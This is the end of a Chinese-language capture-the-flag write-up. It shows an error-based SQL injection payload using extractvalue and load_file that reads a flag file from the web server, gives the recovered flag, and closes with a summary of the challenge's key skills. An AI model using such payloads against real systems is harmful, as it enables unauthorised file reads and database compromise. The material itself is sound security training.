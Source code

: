 ![image-20210416223715718](/images/posts/ctf/image-20210416223715718.png)

获取到flag的前半部分，同查询密码的步骤，获取flag的后半部分：

```bash
' and extractvalue(1,concat(0x5c,mid(select load_file('/var/www/html/f13g_ls_here.txt'), 20, 52)))#
```

![image-20210416224034161](/images/posts/ctf/image-20210416224034161.png)

**拼接得到完整flag**：`flag{8a69155e-c420-4c21-917a-313d5ec65b0a}`

至此，得到flag。

## 总结

这次题目难度适中，主要在于三个关键点。

第一个属于破题点，其在于利用参数key错误获取出错信息，来找到使用框架的漏洞；第二个比较关键的点是考察代码审计的功底；第三个就是SQL注入的熟练度。

如果对任何一个方面不熟悉的话，还是需要花费些许精力的，熟能生巧，加油！

